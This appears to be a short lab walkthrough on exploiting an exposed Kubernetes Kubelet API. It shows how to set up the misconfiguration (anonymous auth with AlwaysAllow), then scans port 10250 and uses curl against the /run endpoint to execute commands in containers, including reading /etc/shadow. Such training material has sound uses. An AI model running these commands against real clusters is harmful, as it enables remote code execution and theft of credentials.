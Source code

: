 
## Attacking the Kubelet API

- Kubelet agent runs on each node - required for lauching pods and sending status and metrics
- Other components in the cluster interact with it through an API
- If this API is exposed to anauthorized users, its possible to achieve a full cluster compromise

   → Remote code execution
   → Information disclosure


### RCE example

In the Worker node:
```bash
sudo nano /var/lib/kubelet/config.yaml
```

> There is two parameters to change here, for the misconfiguration to exists and we can exploit

modify:
```yml
authentication:
  anonymous:
    enabled: true
  
authorization:
  mode: AlwaysAllow
```


Restart the service
```bash
sudo systemctl restart kubelet.service
```


In the Attacker machine

Run NMAP:
```bash
nmap <worker ip> -p 10250 -sV
```

> port 10250 is default port of kubelet API


Use CURL to list the pods through kubelet API:
```bash
curl -k https://<worker ip>:10250/runningpods/
```

With the information capture here we can execute command:
```bash
curl -k https://<worker ip>:10250/run/default/<namespace>/<pod name>/<container name> -X POST -d “cmd=<command u wanna execute>” 
```

Extract shadow:
```bash
curl -k https://<worker ip>:10250/run/default/<namespace>/<pod name>/<container name> -X POST -d “cmd=cat /etc/shadow” 
```
